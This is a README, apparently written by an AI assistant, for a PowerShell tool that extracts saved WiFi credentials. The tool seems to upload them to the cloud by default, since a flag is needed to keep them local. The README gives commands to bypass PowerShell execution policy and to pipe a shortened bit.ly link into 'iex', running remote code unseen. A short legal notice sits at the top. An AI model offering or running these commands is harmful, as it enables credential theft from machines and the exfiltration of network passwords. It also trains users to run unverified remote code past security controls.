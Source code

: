 Here's your **fully customized README.md** with all personal details integrated:

```markdown
# 🔐 WiFi Credential Extractor

![PowerShell](https://img.shields.io/badge/PowerShell-v5.1+-blue.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg)
![Maintainer](https://img.shields.io/badge/Maintainer-techiecyber404-blue)

> **⚠️ Legal Notice**: Only use on networks you own or have explicit permission to test.  
> Unauthorized access to computer networks is illegal.

## 📥 Installation
```powershell
# Download directly
irm https://raw.githubusercontent.com/techiecyber404/WiFi-Credential-Extractor/main/Get-WiFiCredentials.ps1 -OutFile WiFiExtractor.ps1
```

## 🚀 Basic Usage
```powershell
# Run with default options (admin PowerShell required)
.\WiFiExtractor.ps1 -LocalOnly
```

## ⚙️ Parameters
| Parameter       | Description                          |
|-----------------|--------------------------------------|
| `-LocalOnly`    | Disables cloud upload                |
| `-ShowPasswords`| Displays passwords in console        |
| `-OutputPath`   | Custom save location (default: TEMP) |

## 🛡️ Execution Bypass
If blocked by policies:
```powershell
# Method 1: Temporary bypass
Set-ExecutionPolicy Bypass -Scope Process -Force

# Method 2: Direct execution (no save)
irm https://bit.ly/wifi-extractor | iex
```

## 🌟 Features
- Encrypted credential storage
- Ethical use enforcement
- Lightweight (7KB) and fast

## 📜 License
MIT © [Venkatesh K](https://github.com/techiecyber404)  
**GitHub**: [@techiecyber404](https://github.com/techiecyber404)
